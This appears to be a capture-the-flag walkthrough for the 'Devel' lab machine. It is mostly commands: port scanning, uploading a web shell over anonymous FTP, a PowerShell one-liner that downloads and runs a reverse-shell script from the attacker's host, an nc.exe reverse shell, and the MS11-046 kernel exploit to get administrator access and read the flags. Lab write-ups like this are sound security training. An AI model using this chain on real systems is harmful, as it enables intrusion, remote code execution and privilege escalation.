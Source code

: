 # Devel

## Scanning
```bash
sudo nmap -p- -sS --open -vvv --min-rate 5000 10.10.10.5 -n -Pn -oG allPorts
nmap -sC -sV -p 21,80 -Pn -n 10.10.10.5 -oN targeted
```
![004237.png](004237.png)

## ftp anonymous 

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/cmd.aspx .
ftp 10.10.10.5
```
![012617.png](012617.png)

put cmd.aspx

![021931.png](021931.png)

#### our machine
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

sudo python3 -m http.server 80
```

#### victim machine
we enter in http://10.10.10.5/cmd.aspx
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1')
```
![200133.png](200133.png)

https://www.exploit-db.com/exploits/40564

we search in google "6.1.7600 N/A Build 7600 exploit"

![200136.png](200136.png)

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/ms11-046.exe

cp /usr/share/windows-resources/binaries/nc.exe .
ftp 10.10.10.5
binary
put ms11-046.exe
put nc.exe
```

in powershell
```
./nc.exe -e 10.10.14.27 4444
```

in our machine
```
nc -lvp 4444
```
now we have a cmd shell
```
cd C:\inetpub\wwwroot
.\ms11-046.exe
```

### flags
```cmd
type C:\Users\babis\Desktop\user.txt.txt
type C:\Users\Administrator\Desktop\root.txt.txt
```